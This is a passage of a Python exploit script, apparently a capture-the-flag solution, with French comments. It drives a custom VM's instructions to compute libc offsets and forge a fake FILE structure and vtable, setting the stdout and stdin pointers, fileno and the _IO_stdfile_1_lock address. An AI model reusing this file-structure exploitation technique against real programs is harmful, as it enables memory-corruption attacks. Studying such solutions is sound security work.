 ```python
shl_dst_src_imm(6,6,6)
sub_dst_src_src2(5,5,6)
add_dst_src_src2(5,5,23)	# reg5 points to libc now

mode()
push_imm(0x1410)
pop_reg(4)
switchl()
add_dst_src_src2(3,13,4)		# met offset 23 à l'addresse de notre fake vtable
sub_dst_src_imm(3,3,100)
shr_dst_src_imm(offset+5,3,1)		# met offset+5 à (libc+0x1b4096)/2
shr_dst_src_imm(offset+8,3,1)		# met offset+8 à (libc+0x1b4096)/2

# copy stdout
mode()
push_imm(0x3ec7)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x60)
add_dst_src_src2(offset+1,4,5)
add_dst_src_src2(offset+2,4,5)
add_dst_src_src2(offset+3,4,5)
add_dst_src_src2(offset+4,4,5)
add_dst_src_src2(offset+29,4,5)

#copy stdin
mode()
push_imm(0x3eba)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
add_dst_src_src2(offset+13,4,5)		# offset +13  --> stdin

# copy fileno = 1
mode()
push_imm(3)
pop_reg(4)
switchl()
add_dst_src_src2(offset+14,4,1)		# offset +14  --> 1

#copy  0xa000000 
mode()
push_imm(0xa000)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
shl_dst_src_imm(4,4,8)
add_dst_src_src2(offset+16,4,1)		# offset +16  --> 0xa000000

# write _IO_stdfile_1_lock
mode()
push_imm(0x3ed8)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x88)
add_dst_src_src2(offset+17,4,5)	# met offset 17 a libc +0x3ed888

# write _IO_wide_data_1
mode()
push_imm(0x3ed8)
pop_reg(4)
```